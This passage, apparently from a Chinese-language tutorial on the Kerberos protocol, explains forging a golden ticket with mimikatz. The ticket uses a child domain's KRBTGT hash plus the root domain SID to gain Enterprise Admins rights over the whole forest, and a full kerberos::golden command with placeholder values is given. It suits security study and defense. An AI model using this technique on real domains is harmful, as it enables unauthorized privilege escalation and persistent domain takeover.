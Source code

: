 ![1575791470523](Kerberos协议探索系列二票据篇.assets/1575791470523.png)

如果知道根域的SID那么就可以通过子域的KRBTGT的HASH值，使用mimikatz创建具有 Enterprise Admins组权限（域林中的最高权限）的票据。环境与上文普通金票的生成相同。

首先我们通过klist purge删除当前会话的Kerberos票据，也可以在mimikatz里通过kerberos::purge来删除。

![1575791477562](Kerberos协议探索系列二票据篇.assets/1575791477562.png)

然后通过mimikatz重新生成包含根域SID的新的金票

```
Kerberos::golden /admin:administrator /domain:news.yunying.lab /sid:XXX /sids:XXX /krbtgt:XXX /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

![1575791488437](Kerberos协议探索系列二票据篇.assets/1575791488437.png)

Startoffset和endin分别代表偏移量和长度，renewmax表示生成的票据的最长时间
